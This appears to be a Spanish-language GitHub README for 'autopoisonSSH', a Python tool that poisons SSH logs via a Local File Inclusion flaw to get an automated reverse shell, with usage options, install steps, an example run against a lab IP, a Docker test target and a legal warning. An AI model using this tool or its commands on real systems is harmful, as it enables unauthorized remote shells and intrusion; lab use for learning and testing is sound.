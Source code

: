 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.

Las opciones disponibles son las siguientes:

```bash
usage: autopoisonSSH.py [-h] -u TARGET_URL -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u "http://172.17.0.2/vuln.php?file" -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php?file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
                                             
  -p, --target-port         TARGET_PORT      Target http port                                                              (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                               (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                                   (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasándole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u "http://172.17.0.2/index.php?filename" -t-ip 172.17.0.2 -h-ip 172.17.0.1
```

![Screenshoot POC](https://github.com/user-attachments/assets/815ab114-ac38-448b-af13-364e4a239aef)

---
## Puesta en Práctica

[Dockerfile](Dockerfile)

```bash
docker build -t logpoisoning_image .
```

```bash
docker run -dit --name ssh_logpoisoning logpoisoning_image
```

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
